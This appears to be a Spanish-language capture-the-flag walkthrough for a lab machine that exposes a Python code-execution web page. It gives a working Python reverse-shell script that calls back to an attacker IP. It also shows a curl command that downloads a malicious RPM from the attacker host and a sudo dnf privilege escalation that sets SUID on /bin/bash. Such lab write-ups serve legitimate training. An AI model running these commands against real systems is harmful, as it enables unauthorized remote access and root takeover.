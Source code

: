 - tags: #python #dnf 
____
comenzamos la maquina con aplicando reconocimientos de puerto con nmap.

vemos que tenemos el puerto 5000 - OPEN.

revisamos la pagina web para ver que tal.
_____
![](attachment/a05f8c9c30054a927c29d3c8c0ba7a6d.png)
____
vemos que tenemos una pagina que nos permite ejecutar código de python. 

por lo que haremos pruebas para ver si la web nos interpreta comandos utilizando la librería os de python.
____
![](attachment/f3ac05fa84111acdb5b8fcd41b47906c.png)
____
tenemos ejecución de comandos por los que el siguiente paso sera preparar un reverse shell con python.

```python
import socket
import subprocess
import os

# Datos del atacante
IP = 'ATACANTE_IP'
PORT = ATACANTE_PUERTO

# Crear socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Conectar al servidor
s.connect((IP, PORT))

# Redireccionar entrada y salida estándar
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

# Iniciar shell
subprocess.call(["/bin/sh", "-i"])
```

existen mas sencillas con esta resolvemos.

a la hora de ganar acceso a la maquina tuvimos problemas para tratar la tty por lo que seguimos sin este paso.

aplicamos el `sudo -l` y verificamos lo que nos sale.
____
![](attachment/f9c699e864250936d566d8d5a4e881d5.png)
____
tenemos ese binario que si buscamos en web nos parace los siguiente.
___
![](attachment/0f13208d1729bd50b0f09d436f05d51c.png)
_____
los primeros tres comando son los que ejecutaremos en nuestra maquina atacante.

en el segundo comando es donde se da la escalada de privilegios.

```shell
echo 'chmod u+s /bin/bash' > $TF/x.sh
```

Aquí aplicamos una escalada típica de privilegios donde cambiamos LOS permisos de /bin/bash a SUID.

estos comandos nos crearan un archivo el cual subiremos a la maquina utilizando un servidor de python desde la maquina atacante y utilizando curl desde la maquina victima para poder descargar el archivo.
_______
![](attachment/9c153306b7995492798bf879b1ba9a26.png)
_____
ahora descargamos el archivo con curl.
____
![](attachment/d5673d28d3ad3687a7de1399f066e232.png)
_____
utilizamos curl para esta tarea

```bash
curl 192.168.1.103/archivo.rpm -o nombre_de_archivo
```

una vez cargado el archivo, lo podemos ejecutar utilizando el comando root.

```bash
sudo -u root /usr/bin/dnf install -y nombre_del_archivo.rpm
```

____
![](attachment/d251b12fc22dc26eb42b3b8885f50ad0.png)
____
ahora aplicamos un **bash -p** y ya deberíamos tener root 
____
![](attachment/8d11fe691d549e4df359f22ac72466a9.png)
____